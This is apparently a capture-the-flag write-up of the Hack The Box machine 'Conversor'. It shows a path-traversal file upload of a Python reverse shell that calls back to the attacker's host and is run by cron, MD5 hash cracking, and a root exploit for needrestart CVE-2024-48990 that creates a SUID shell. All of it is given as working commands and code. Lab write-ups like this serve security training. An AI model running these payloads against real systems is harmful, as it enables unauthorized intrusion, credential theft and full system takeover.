

---
title: "HTB-Conversor"
date: 2026-01-19
draft: false
summary: "Flask web application vulnerable to path traversal during file uploads. Exploited by uploading Python reverse shell to cron-executed directory → gained www-data shell → extracted MD5 hashes from SQLite database → cracked password for user fismathack → leveraged CVE-2024-48990 in needrestart 3.7 for privilege escalation to root."
tags:
  - web 
  - Linux
  - CVE-2024-48990
  - file-upload
  - path-traversal
  - needrestart
  - sqlite
  - nmap 
platform: machines
---



## TL;DR
Flask web application vulnerable to path traversal during file uploads. Exploited by uploading Python reverse shell to cron-executed directory → gained www-data shell → extracted MD5 hashes from SQLite database → cracked password for user fismathack → leveraged CVE-2024-48990 in needrestart 3.7 for privilege escalation to root.


## Recon
### port scanning

`nmap` identifies 2 open TCP ports: 22 (SSH) and 80 (HTTP)
```shell
bubka@bubka$ nmap 10.129.4.129 -p- -A --min-rate 5000
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-19 06:23 -0500
Nmap scan report for 10.129.4.129
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://conversor.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: Host: conversor.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   35.97 ms 10.10.14.1
2   35.93 ms 10.129.4.129

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.69 seconds
```

I added the host domain to my `/etc/hosts file`.
```bash
bubka@bubka$ tail -1 /etc/hosts  
10.129.4.129      conversor.htb
``` 

### Website Enumeration
The website features a login form


Clicking "Register" redirects to a registration page where I created an account


The application converts XML and XSLT files into HTML


I downloaded the source code from the "About" page.


```bash
.
├── app.py
├── app.wsgi
├── install.md
├── instance
│   └── users.db
├── scripts
├── static
│   ├── images
│   │   ├── arturo.png
│   │   ├── david.png
│   │   └── fismathack.png
│   ├── nmap.xslt
│   └── style.css
├── templates
│   ├── about.html
│   ├── base.html
│   ├── index.html
│   ├── login.html
│   ├── register.html
│   └── result.html
└── uploads
```
### Source code analysis
intresting stuff was founded in `app.py` and `install.md`. 
The application is built with Python Flask.
In app.py i found that XSLT file dont use parser configuration like XLM do.
no filename sanitization was found in the upload handler, enabling path traversal attacks.

<u>app.py:</u> 
```python
...[snip]...
parser = etree.XMLParser(resolve_entities=False, no_network=True, dtd_validation=False, load_dtd=False)
xml_tree = etree.parse(xml_path, parser)   
xslt_tree = etree.parse(xslt_path)       # no parse configuration
...[snip]...
```
- resolve_entities=False (prevents the parser from resolving entities into their values)
- no_network=True (prevent making any network requests during XML processing)
- dtd_validation=False (disables validation of the document against a DTD)
- load_dtd=False (prevents loading external DTD)


`install.md` reveals a cron job that executes all Python scripts in /var/www/conversor.htb/scripts/ every minute. 
```python
...[snip]...
You can also run it with Apache using the app.wsgi file.
If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.
"""
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
"""
...[snip]...
```

## Exploitation
Attack-Vector: Arbitrary File Upload via Path Traversal to Cron RCE.

The application does not sanitize filenames properly. I can upload a Python reverse shell and use path traversal (../scripts/) to save it into the directory executed by the cronjob
```bash
bubka@bubka$ cat exploit.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.80",5323)) 
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")

bubka@bubka$ curl -X POST http://conversor.htb/convert \
  -F "xml_file=@exploit.py;filename=../scripts/exploit.py" \
  -F "xslt_file=@exploit.py;filename=sex.xsl" \
  -b "session=eyJ1c2VyX2lkIjo1LCJ1c2VybmFtZSI6ImJ1YmthIn0.aW574A.k5FrGy9C5elqfuPqbua7WiA3Img"
```

## Shell as www-data
```bash
bubka@bubla$ nc -lvnp 5323
listening on [any] 5323 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.4.226] 51018
www-data@conversor:~$ 
```

i know that exist database. Analyzing `users.db` revealed hashes for users 'fismathack'
```bash
www-data@conversor:~$ sqlite3 /var/www/conversor.htb/instance/users.db "SELECT * FROM users;"
<versor.htb/instance/users.db "SELECT * FROM users;"
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
5|bubka|d6f23513481dcdbb81a197a16ea36c5f
```

cracking fismathack MD5 hash
```bash
bubka@bubka$ echo "5b5c3ac3a1c897c94caad48e6c71fdec" > hash.txt
bubka@bubka$ hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
5b5c3ac3a1c897c94caad48e6c71fdec:Keepmesafeandwarm
```

## Shell as fismathack
using `ssh` with `Keepmesafeandwarm` password
```bash
bubka@bubka$ ssh fismathack@conversor.htb
...[snip]...
fismathack@conversor:~$ whoami
fismathack
```

getting user flag
```bash
fismathack@conversor:~$ cat ~/user.txt
55362fe3efcdfdcc6d8f0b6c474d4b6d
```

## Shell as root
```bash
fismathack@conversor:~$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart

fismathack@conversor:~$ needrestart --version

needrestart 3.7 - Restart daemons after library updates.
...[snip]...
```
checking `sudo -l` revealed that fismathack can run `/usr/sbin/needrestart` without a password. The installed version is 3.7. This version is vulnerable to `CVE-2024-48990` (Local Privilege Escalation), which allows arbitrary code execution via the -c config flag.

I wrote a Python script to automate the exploitation:
 Create a malicious Perl config file that copies /bin/bash and sets the SUID bit. Execute sudo needrestart pointing to this config. Spawn the SUID shell.


priv.py:
```python
#!/usr/bin/env python3
import os
import sys
import subprocess

config = "/tmp/bu.conf"
shell = "/tmp/bash"
payload = f'system("cp /bin/bash {shell} && chmod 4755 {shell}");'

try:
    with open(config, "w") as f:
        f.write(payload)

    subprocess.run(["sudo", "needrestart", "-c", config], check=True)

    if os.path.exists(config):
        os.remove(config)

    if os.path.exists(shell):
        os.execl(shell, shell, "-p")

except Exception as e:
    print(f"Unexpected error: {e}")
    sys.exit(1)
```
Root obtained.
```bash
fismathack@conversor:~$ python3 priv.py 
Scanning processes...                                                                                              
Scanning linux images...                                                                                           

Running kernel seems to be up-to-date.

No services need to be restarted.

No containers need to be restarted.

No user sessions are running outdated binaries.

No VM guests are running outdated hypervisor (qemu) binaries on this host.
rootbash-5.1# whoami
root
rootbash-5.1# 
```

and flag:
```bash
rootbash-5.1# cat /root/root.txt
2ddbf40c03a3c45866748ea7e8c69444
```
